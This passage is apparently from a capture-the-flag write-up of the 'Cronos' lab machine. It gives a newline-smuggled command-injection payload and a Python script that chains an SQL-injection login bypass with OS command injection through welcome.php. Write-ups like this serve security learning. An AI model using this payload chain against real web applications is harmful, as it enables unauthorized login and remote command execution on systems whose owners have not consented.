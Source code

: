 ```
command=ping+-c+1&host=127.0.0.1%0awhoami
```

<img src="/assets/img/cronos/Untitled 8.png" alt="Untitled 8.png" style="width:800px;">

For learning’s sake, I created a Python script that recreates our steps.

```python
import argparse
import requests
import sys

def bypass_login(target, ):
    url = f'http://{target}'
    headers = {
        'Host': 'admin.cronos.htb',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    data = 'username=a%27+or+1%3D1--+-&password=a'

    s = requests.session()
    res = s.post(url, headers=headers, data=data, allow_redirects=False)
    if res.status_code == 302:
        print("\n[+] Bypassed the authentication")
        return s
    else:
        raise Exception('\n[!] Error: Could NOT bypass the authentication :(')

def inject_command(target, command, s):
    headers = {
        'Host': 'admin.cronos.htb',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    url = f'http://{target}/welcome.php'
    data = f'command=ping+-c+1&host=127.0.0.1%0a{command}'
    
    response = s.post(url, headers=headers, data=data, timeout=3)
    
    # format output (don't critize my code XD)
    list_from_output = response.text.split('\n')
    previous_line = ''.join(list(filter(lambda x: 'rtt min/avg/max/mdev' in x, list_from_output)))
    start_index = list_from_output.index(previous_line) + 1
    command_output = '\n'.join(map(lambda x: x.strip(), list_from_output[start_index:-5])).replace('<br>', '')
    
    print(f'\n[+] Command injected: {command}')
    print(f'\n[+] Output:\n\n{command_output}')
```